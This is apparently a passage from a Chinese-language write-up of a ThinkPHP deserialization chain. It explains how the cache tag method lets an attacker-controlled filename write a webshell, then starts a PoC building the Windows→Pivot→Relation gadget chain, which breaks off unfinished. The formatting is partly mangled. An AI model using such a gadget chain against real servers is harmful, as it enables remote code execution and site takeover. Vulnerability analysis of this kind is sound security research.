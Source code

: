 回来继续看$data，从传入的$value获取，但是在之前writeln处已经传入了true，而且不可控，只能继续往下看，可以看到当成功写入文件时，会调用setTagItem方法，跟进

```
protected function setTagItem($name)
{
    if ($this->tag) {
        $key       = 'tag_' . md5($this->tag);
        $this->tag = null;
        if ($this->has($key)) {
            $value   = explode(',', $this->get($key));
            $value[] = $name;
            $value   = implode(',', array_unique($value));
        } else {
            $value = $name;
        }
        $this->set($key, $value, 0);
    }
} 
```

又调用了一次set，且此处两个参数都是可控的，所以可以在文件名处搞事情，通过编码然后将文件名写入shell中

### poc

```
<?php
namespace think\process\pipes;
use think\model\Pivot;
class Pipes{

}

class Windows extends Pipes{

private $files = [];

```
function __construct(){
	$this-&gt;files = [new Pivot()];
} 
```

}

namespace think\model;#Relation

use think\db\Query;

abstract class Relation{

protected $selfRelation;

protected $query;

function __construct(){

$this->selfRelation = false;

$this->query = new Query();#class Query

}

}

namespace think\model\relation;#OneToOne HasOne

```